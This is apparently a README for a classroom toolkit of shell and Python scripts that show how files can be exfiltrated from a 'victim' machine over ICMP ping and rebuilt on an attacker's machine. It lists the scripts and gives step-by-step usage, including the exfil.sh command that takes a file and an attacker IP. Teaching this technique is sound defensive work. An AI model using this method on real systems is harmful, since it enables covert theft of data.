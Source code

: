 These programs demostrate how an attacker can exfiltrate data using the icmp protocol.
They are designed for use in a cybersecurity classroom.

Programs Included:
exfil.sh: This program sends files from the VICTIM machine over ping. 
listen.sh: This runs the tcpdump command and produces the output (data.dmp)
pyarray.py: This program parses through data.dmp file.
rebuild.sh: This script runs pyarray, produces hexout, and prints the recieved file in plaintext.

Directions:

Copy listen.sh, pyarray.py, and rebuild.sh to the ATTACKER machine.
Run ./listen.sh

Copy exfil.sh to the VICTIM MACHINE
Usage: ./exfil.sh <file_to_transfer> <ip_address_of_attacker>

Stop listen.sh with CTRL-C on the ATTACKER machine.
(You should see a file called data.dmp) --tcpdump output of all ping requests heard from the victim.

Run ./rebuild.sh and the file sent from the attacker will be printed in plain text.



